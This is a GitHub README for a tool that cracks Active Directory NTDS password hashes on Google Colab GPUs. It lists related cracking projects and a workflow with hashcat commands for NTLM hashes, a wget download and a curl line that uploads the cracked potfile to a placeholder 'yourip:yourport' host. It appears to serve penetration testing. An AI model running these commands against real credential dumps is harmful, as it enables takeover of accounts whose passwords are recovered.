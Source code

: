 # Nephelees
Néphélées (Νεφήλαι, Nephḗlai) : cloud nymphs greek - also ntds cracking tool abusing Google Colab 

<p align="center">
  <a href="https://colab.research.google.com/github/swisskyrepo/Nephelees/blob/main/google_colab_hashcat.ipynb" target="_parent"><img src="https://colab.research.google.com/assets/colab-badge.svg" alt="Open In Colab"/></a>
</p>

## V1 - Google Colab

Roll for Tesla P100

* https://github.com/ShutdownRepo/hashonymize
* https://github.com/ShutdownRepo/google-colab-hashcat
* https://github.com/mxrch/penglab

```ps1
Go on : https://colab.research.google.com/github/mxrch/penglab/blob/master/penglab.ipynb
Select "Runtime", "Change runtime type", and set "Hardware accelerator" to GPU.
Change the config by setting "True" at tools you want to install.
Select "Runtime" and "Run all" !


Workflow example 3 (OPSEC: crack anonymized hashes)
run the preparation script below
on your local machine, run hashonymize to anonymize your hash lists
upload your anon hashes list on the colab !wget http://yourip:yourport/yourfile
run a hashcat command like this to start cracking !hashcat --status --hash-type 1000 --attack-mode 0 --username DOMAIN.LOCAL.ntds wordlists/rockyou.txt
recover the .pot file from the Google Colab !curl --upload-file ~/.hashcat/hashcat.potfile http://yourip:yourport/
on your local machine, run the following hashcat command with the recovered potfile to match real usernames with cracked password hashcat --potfile-path hashcat.potfile --hash-type 1000 --username DOMAIN.LOCAL.ntds wordlists/rockyou.txt
hashcat -m 1000 --potfile-path ntds.cracked ntds.tocrack --show --username
```

* markov, keyboard walking, dico + rules , haveibeenpwn
* reuse old pot (extract passwd to new wordlist) 

## V2 - UI

* https://github.com/Coalfire-Research/npk
* https://github.com/s3inlc/hashtopolis/releases/tag/v0.12.0

## References & Ideas

* https://github.com/carlmon/Hashcat-Azure
* https://durdle.com/2017/04/23/using-hashcat-to-crack-hashes-on-azure/
* https://www.trillsecurity.com/tutorials/automating-hashtopolis-with-terraform-part-i/
* https://www.trillsecurity.com/tutorials/automating-hashtopolis-with-terraform-part-ii/
